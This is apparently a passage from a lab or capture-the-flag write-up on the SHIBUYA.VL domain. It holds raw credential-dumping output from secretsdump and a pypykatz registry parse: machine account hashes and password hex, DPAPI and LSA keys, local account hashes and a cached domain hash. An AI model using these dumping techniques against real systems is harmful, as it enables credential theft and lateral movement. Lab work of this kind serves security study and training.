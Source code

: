 ```
$MACHINE.ACC:plain_password_hex:2f006b004e0045004c0045003f0051005800290040004400580060005300520079002600610027002f005c002e002e0053006d0037002200540079005e0044003e004e0056005f00610063003d00270051002e00780075005b0075005c00410056006e004200230066004a0029006f007a002a005700260031005900450064003400240035004b0079004d006f004f002100750035005e0043004e002500430050006e003a00570068005e004e002a0076002a0043005a006c003d00640049002e006d005a002d002d006e0056002000270065007100330062002f00520026006b00690078005b003600670074003900
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:1fe837c138d1089c9a0763239cd3cb42
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb31a4d81f2df440f806871a8b5f53a15de12acc1
dpapi_userkey:0xe14c10978f8ee226cbdbcbee9eac18a28b006d06
[*] NL$KM 
 0000   92 B9 89 EF 84 2F D6 55  73 67 31 8F E0 02 02 66   ...../.Usg1....f
 0010   F9 81 42 68 8C 3B DF 5D  0A E5 BA F2 4A 2C 43 0E   ..Bh.;.]....J,C.
 0020   1C C5 4F 40 1E F5 98 38  2F A4 17 F3 E9 D9 23 E3   ..O@...8/.....#.
 0030   D1 49 FE 06 B3 2C A1 1A  CB 88 E4 1D 79 9D AE 97   .I...,......y...
NL$KM:92b989ef842fd6557367318fe0020266f98142688c3bdf5d0ae5baf24a2c430e1cc54f401ef598382fa417f3e9d923e3d149fe06b32ca11acb88e41d799dae97
[*] Cleaning up...
```
```
└─$ pypykatz registry --sam SAM --security SECURITY --software SOFTWARE SYSTEM 
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 2e971736685fc53bfd5106d471e2f00f
============== SAM hive secrets ==============
HBoot Key: 22d587da2426afe6a88a8d6d863b94ee10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9dc1b36c1e31da7926d77ba67c654ae6:::
operator:1000:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
============== SECURITY hive secrets ==============
Iteration count: 10240
Secrets structure format : VISTA
LSA Key: 3ad32138eed69d7bb34031499cde856307fe28421ae319e78cf09ade35adfade
NK$LM Key: 4000000000000000000000000000000092b989ef842fd6557367318fe0020266f98142688c3bdf5d0ae5baf24a2c430e1cc54f401ef598382fa417f3e9d923e3d149fe06b32ca11acb88e41d799dae97ba30a158669a4400fd1c2519fa63f5c4
SHIBUYA.VL/Simon.Watson:*2025-02-16 11:17:56*$DCC2$10240#Simon.Watson#04b20c71b23baf7a3025f40b3409e325
=== LSA Machine account password ===
History: False
NT: 1fe837c138d1089c9a0763239cd3cb42
Password(hex): 2f006b004e0045004c0045003f0051005800290040004400580060005300520079002600610027002f005c002e002e0053006d0037002200540079005e0044003e004e0056005f00610063003d00270051002e00780075005b0075005c00410056006e004200230066004a0029006f007a002a005700260031005900450064003400240035004b0079004d006f004f002100750035005e0043004e002500430050006e003a00570068005e004e002a0076002a0043005a006c003d00640049002e006d005a002d002d006e0056002000270065007100330062002f00520026006b00690078005b003600670074003900
Kerberos password(hex): 2f6b4e454c453f515829404458605352792661272f5c2e2e536d372254795e443e4e565f61633d27512e78755b755c41566e4223664a296f7a2a5726315945643424354b794d6f4f2175355e434e2543506e3a57685e4e2a762a435a6c3d64492e6d5a2d2d6e562027657133622f52266b69785b36677439
=== LSA Machine account password ===
History: True
NT: 1fe837c138d1089c9a0763239cd3cb42
Password(hex): 2f006b004e0045004c0045003f0051005800290040004400580060005300520079002600610027002f005c002e002e0053006d0037002200540079005e0044003e004e0056005f00610063003d00270051002e00780075005b0075005c00410056006e004200230066004a0029006f007a002a005700260031005900450064003400240035004b0079004d006f004f002100750035005e0043004e002500430050006e003a00570068005e004e002a0076002a0043005a006c003d00640049002e006d005a002d002d006e0056002000270065007100330062002f00520026006b00690078005b003600670074003900
Kerberos password(hex): 2f6b4e454c453f515829404458605352792661272f5c2e2e536d372254795e443e4e565f61633d27512e78755b755c41566e4223664a296f7a2a5726315945643424354b794d6f4f2175355e434e2543506e3a57685e4e2a762a435a6c3d64492e6d5a2d2d6e562027657133622f52266b69785b36677439
=== LSA DPAPI secret ===
```